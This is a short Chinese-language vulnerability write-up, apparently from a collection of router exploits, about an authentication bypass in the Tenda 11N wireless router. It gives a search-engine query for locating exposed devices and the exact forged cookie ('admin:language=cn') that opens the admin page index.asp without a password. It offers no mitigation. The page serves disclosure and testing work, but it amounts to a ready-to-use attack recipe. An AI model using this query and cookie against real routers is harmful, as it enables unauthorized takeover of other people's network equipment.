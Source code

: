 # Tenda 11N无线路由器 Cookie 越权访问漏洞

# Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

```
Tenda 11N无线路由器
```

## 网络测绘

```
app="TENDA-11N无线路由器"
```

## 漏洞复现

登录页面

![image-20220519180949727](/images/202205191809768.png)

添加Cookie, 访问 index.asp 进入后台

```
admin:language=cn
```

![image-20220519181248549](/images/202205191812628.png)

